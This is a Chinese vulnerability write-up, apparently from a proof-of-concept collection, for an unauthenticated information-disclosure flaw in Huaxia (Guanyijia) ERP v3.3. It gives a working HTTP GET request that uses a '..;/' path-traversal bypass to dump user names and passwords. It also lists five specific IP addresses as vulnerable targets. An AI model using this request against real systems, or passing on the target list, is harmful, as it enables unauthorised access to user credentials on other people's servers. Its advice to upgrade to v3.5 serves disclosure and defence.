


## 产品简介

管伊佳ERP（原名华夏ERP）基于SpringBoot框架和SaaS模式，立志为中小企业提供开源好用的ERP软件，目前专注进销存+财务+生产功能。主要模块有零售管理、采购管理、销售管理、仓库管理、财务管理、报表查询、系统管理等。支持预付款、收入支出、仓库调拨、组装拆卸、订单等特色功能。拥有商品库存、出入库统计等报表。同时对角色和权限进行了细致全面控制，精确到每个按钮和菜单。

## 漏洞描述

华夏ERP系统存在信息泄露漏洞，通过请求含有payload的数据包即可返回用户名、密码、职级等敏感信息，由于漏洞利用难度简单，建议使用者立刻升级到v3.5及以上版本，防止此漏洞被利用。

## 漏洞URL

```
http://121.228.124.38:8088/,https://222.71.147.35/,http://39.106.129.54:8081/,http://8.138.91.130:8088/,http://101.37.118.74:8890/
```

## POC

```http
GET /jshERP-boot/platformConfig/getPlatform/..;/..;/..;/jshERP-boot/user/getAllList HTTP/1.1
Host: <target host>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

## 复现

进入某使用了华夏ERPv3.3的网站，无需登录，发包得到回显：



浏览器显示如下：


